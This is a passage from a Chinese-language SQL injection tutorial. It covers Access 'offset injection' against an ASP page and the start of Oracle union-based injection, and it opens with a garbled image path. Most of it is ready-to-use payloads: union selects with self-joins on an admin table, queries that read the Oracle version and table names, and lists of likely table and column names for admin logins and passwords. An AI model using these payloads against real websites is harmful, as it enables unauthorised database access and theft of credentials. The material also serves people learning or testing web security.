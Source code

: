 \*\*\*\*\***号判断直到页面错误有变化**

127.0.0.1/asp/index.asp?id=1513 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,\* from admin 正确

说明admin有6个字段

**Access\*\*\*\*偏移注入**，基本公式为：

order by 出的字段数减去\*号的字段数，然而再用order by的字段数减去2倍刚才得出来的答案；

也就是：

\* = 6个字符

2 × \* = 12个字符

22 - 12 = 10个字符

一级偏移语句：

127.0.0.1/asp/index.asp?id=1513 union select 1,2,3,4,5,6,7,8,9,10,\* from (admin as a inner join admin as b on a.id = b.id)

二级偏移语句：

127.0.0.1/asp/index.asp?id=1513 union select 1,2,3,4,a.id,b.id,c.id,\* from ((admin as a inner join admin as b on a.id = b.id)inner join admin as c on a.id=c.id)

实战常见的表和列（也可以用sqlmap的，但是量大且效率低）

常见的表有（最后根据企业名的缩写搭配上admin、user、name）

admin admins admin\_user admin\_usr admin\_msg admin\_login user username manager msg\_user msg\_login useradmin product、news、usr、system、article、customer、area

admin\_id、admin\_name、admin\_password

常见的列

admin admin\_user username password passwd pass pwd users usr user\_login user\_name login\_name name等等

oracle注入(jsp)

![](https://pic2.zhimg.com/v2-1ea7fcc069fb54642ed6d69989b6c8d5_b.jpg)

## 常规有回显注入

order by 3--

and 1=2 union select null,null,null from dual--

and 1=2 union select 'null',null,null from dual-- //返回正常，则第一个字段是数字型，返回错误，为字符型

and 1=2 union select 1,'2','3' from dual-- //判断显示位

and 1=2 union select null,(select banner from sys.v\_$version where rownum=1),null from dual-- //探测数据库版本信息

and 1=2 union select null,(select table\_name from user\_tables where rownum=1),null from dual-- //查询第一个表名
